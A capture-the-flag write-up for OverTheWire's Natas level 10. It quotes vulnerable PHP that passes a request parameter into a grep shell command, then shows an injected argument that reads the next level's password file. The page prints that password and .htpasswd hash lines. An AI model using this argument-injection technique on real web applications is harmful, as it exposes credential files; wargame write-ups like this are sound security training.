 # Natas 10 Solution

It appears that the only difference between this level and the last is
that the characters `;` and `&` are filtered.

http://natas10.natas.labs.overthewire.org/index-source.html:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This means that we must ust the grep function to find the solution.
Fourtunately, grep allows wildcards in it's search term. We can search 
for `.*`(this will match anything) in the password file, 
and use a hashtag to comment out the `dictionary.txt`.


Submitting `.* /etc/natas_webpass/natas11 #` yields:
```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

The last line contains our password.

**Username: natas11**  
**Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK**

